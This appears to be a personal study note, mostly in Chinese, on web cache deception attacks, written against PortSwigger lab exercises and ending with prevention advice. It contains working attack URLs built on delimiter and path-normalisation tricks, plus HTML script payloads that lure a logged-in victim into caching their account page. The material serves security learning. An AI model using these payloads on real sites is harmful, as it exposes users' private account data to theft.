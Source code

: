 # Web cache deception attacks
- Goal : 存在一個快取規則來儲存以.js結尾的請求的回應
- 靜態目錄規則: /static/ or /assets/
- 檔案名稱規則: robots.txt or favicon.ico
- 專注於支援GET、HEAD或OPTIONS方法的端點
- 建構一個惡意 URL
- cache buster
	- Burp extension : Param miner > Settings > Add dynamic cachebuster
	- 向路徑添加查詢字串並在每次發送請求時進行更改來更改鍵
	- Burp 現在會為您發出的每個請求添加唯一的查詢字串。
	- 您可以在「Logger 」標籤中查看新增的查詢字串
	- Cache-Control header
 
## Exploiting path mapping
 Lab : https://0a86005804fbe54880ed3f7400d6000d.web-security-academy.net/ <br>
  (Burp Repeater)<br>
Request:
- change /my-account/ to /my-account/abc.js
- add X-Cache: miss 
- add Cache-Control: max-age=30 
Response:
- X-Cache chnage to hit -- > X-Cache: hit  <br>

Create 惡意 website (html)
- <script>document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account/wcd.js"</script>
- After others login , we can access this website , get /my-account/wcd.js to get key  <br>

Reference : 
- X-Cache: miss : 此回應不是從快取提供
- X-Cache: hit : 該請求來自快取
- Cache-Control: max-age=30 : 如果回應已被緩存，則應將其儲存 30 秒

## Exploiting delimiter discrepancies
- 保留字元 「./\=<>?+&*;:"{}|^`#」
- 分隔符號 URL  [?]
- 分隔符號 Java Spring [;]
- 分隔符號 Ruby on Rails [.]
- 分隔符號 OpenLiteSpeed  [%00]
	- 編碼字元 [%00]
	- 如果快取使用 Akamai 或 Fastly，它會將%00和之後的所有內容解釋為路徑
 - 使用分隔符號差異，為快取伺服器（而非來源伺服器）檢視的路徑新增靜態副檔名  <br>

1. 在目標終端節點的 URL 中新增任意字串 :
    - /settings/users/list --> /settings/users/listaaa
2. 添加一個可能的分隔符
    - /settings/users/list;aaa
    -  如果回應與基本回應相同，則表示該;字元用作分隔符
    -  如果它將對路徑的回應與任意字串匹配，則表示該; 字元不用作分隔符

Lab : https://0ab0001f040cfc2be566501900290032.web-security-academy.net/  <br>
  (Burp Intrude) 
  - GET /my-account&&abc HTTP/2
  - GET /my-account;abc.js HTTP/2 <br>
  
Reference : 
- Careful decoding discrepancies
- URL decode error 
- static directory cache
  - /static、/assets、/scripts、/images

## Exploiting normalization by the origin server
- 建立路徑遍歷攻擊載荷
- /static/..%2fprofile
- 測試來源伺服器如何規範化 URL 路徑
	- POST : 修改/profile為/aaa/..%2fprofile
   	- 傳回設定檔訊息 --> 被解釋為/profile
   	- 傳回404 --> 解釋為/aaa/..%2fprofile
- 例如/aaa/..%2fassets/js/stockCheck.js
	- 如果回應不再被緩存 --> 存在基於/assets前綴的快取規則
   	- 仍然被緩存 --> /assets/js/stockCheck.js
- /assets/..%2fjs/stockCheck.js
  	- 如果回應不再被緩存 --> 存在基於/assets前綴的快取規則
  	- 仍然被緩存 --> /assets/..%2fjs/stockCheck.js

- /assets/aaa
  	- 如果回應仍然被緩存 --> 快取規則是基於/assets前綴的

- /<static-directory-prefix>/..%2f<dynamic-path
	- /assets/..%2fprofile

- /resources/..%2fYOUR-RESOURCE
  	-  404回應 => X-Cache: miss
  	-  ReSend => X-Cache: hit
  	-  確認存在基於/resources前綴的靜態目錄快取規則
- https://YOUR-LAB-ID.web-security-academy.net/resources/..%2fmy-account?wcd

## Exploiting cache server normalization for web cache deception
- 如果快取伺服器解析編碼的點段，但原始伺服器不解析
  	- /<dynamic-path>%2f%2e%2e%2f<static-directory-prefix>
	- /profile%2f%2e%2e%2fstatic
   	- 快取將路徑解釋為：/static
   	- 原始伺服器將路徑解釋為：/profile%2f%2e%2e%2fstatic
   	- /profile;%2f%2e%2e%2fstatic
   	- 快取將路徑解釋為：/static
   	- 原始伺服器將路徑解釋為：/profile
   	
- Intruder :　#， 、?、%23和%3f
- /my-account?abc.js
- /aaa/..%2fmy-accouut
- /my-account?%2f%2e%2e%2fresources
- <script>document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account%23%2f%2e%2e%2fresources?wcd"</script>

## Exploiting file name cache rules
- Get 常見文件 :  /robots.txt /index.html /favicon.ico
- /profile%2f%2e%2e%2findex.html
	- 如果回應被緩存 --> /index.html
 	- 回應未被緩存 --> /profile%2f%2e%2e%2findex.html

## Preventing web cache deception vulnerabilities
- 使用Cache-Control
- 使用指令no-store + 設定private
- 啟動 CDN 針對 Web 快取欺騙攻擊的所有保護措施
- 例如，Cloudflare 的快取欺騙防護 (Cache Deception Armor)





   
